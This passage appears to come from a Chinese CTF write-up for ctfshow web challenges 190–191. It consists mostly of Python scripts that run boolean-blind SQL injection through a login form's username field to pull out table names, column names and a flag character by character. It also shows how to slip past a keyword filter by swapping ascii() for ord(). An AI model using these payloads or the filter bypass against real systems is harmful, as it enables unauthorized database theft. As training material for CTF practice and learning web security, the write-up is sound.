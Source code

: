 ```python
        #     'username':f"'||if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))={j},1,0)#",
        #     'password':'1'
        # }
        #跑数据
        data={
            'username':f"'||if(ascii(substr((select f1ag from ctfshow_fl0g),{i},1))={j},1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=chr(j)  
            print(flag)
            break
```


## web 191

过滤了用户名里可能包含的ascll字符串

```php
if(preg_match('/file|into|ascii/i', $username)){
```

可以使用ord()函数替换ascii()函数

```python
#author:yu22x
import requests
import string
url="http://f5ac78f2-fd7e-4221-9bf0-d63586ee8a51.challenge.ctf.show/api/index.php"
s=string.ascii_letters+string.digits
flag=''
for i in range(1,45):
    print(i)
    for j in range(32,128):
        #跑库名
        # data={
        #     'username':f"'||if(ord(substr(database(),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑表名
        # data={
        #     'username':f"'||if(ord(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑列名
        # data={
        #     'username':f"'||if(ord(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))={j},1,0)#",
        #     'password':'1'
        # }
        #跑数据
        data={
            'username':f"'||if(ord(substr((select f1ag from ctfshow_fl0g),{i},1))={j},1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=chr(j)  
            print(flag)
```